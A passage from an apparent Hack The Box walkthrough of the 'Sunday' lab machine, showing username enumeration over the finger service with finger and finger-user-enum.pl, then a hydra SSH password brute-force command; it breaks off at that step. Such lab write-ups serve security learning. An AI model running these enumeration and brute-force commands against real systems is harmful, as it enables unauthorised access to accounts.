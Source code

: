 We’ll start off with enumerating port 79. A quick google search on the “Finger service” tells us that the finger protocol is used to find out information about users on a remote system. Therefore, we can use it to enumerate usernames.

First, check if there are any logged in users.

```text
root@kali:~# finger @10.10.10.76
No one logged on
```

No one is currently logged in. Let’s check if the user “root” exists.

```text
root@kali:~# finger root@10.10.10.76                                                                                                                                           
Login       Name               TTY         Idle    When    Where                                                                                                               
root     Super-User            pts/3        <Apr 24, 2018> sunday
```

It does exist. Now, let’s enumerate more usernames. The [seclists](https://installlion.com/kali/kali/main/s/seclists/install/index.html) project has a list of usernames that we can use in order to guess the usernames that are available on the server.

```text
/usr/share/seclists/Usernames/Names/names.txt
```

Pentestmonkey has a [finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) script that is used to enumerate OS-level user accounts via the finger service. Let’s run that on our host.

```text
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

* **-U:** file of usernames to check via finger service
* **-t:** server host running finger service

We get the following result showing us that “sammy” and “sunday” are users of the system.

```text
....
sammy@10.10.10.76: sammy                 pts/2        <Apr 24, 2018> 10.10.14.4          ..                                                                                    
sunny@10.10.10.76: sunny                              <Jan  5 23:37> 10.10.14.12         ..
....
```

## Initial Foothold <a id="4d32"></a>

Since SSH is open and we have two valid usernames, let’s try brute-forcing the users’ credentials using hydra. We’ll start off with Sunny.

```text
hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```
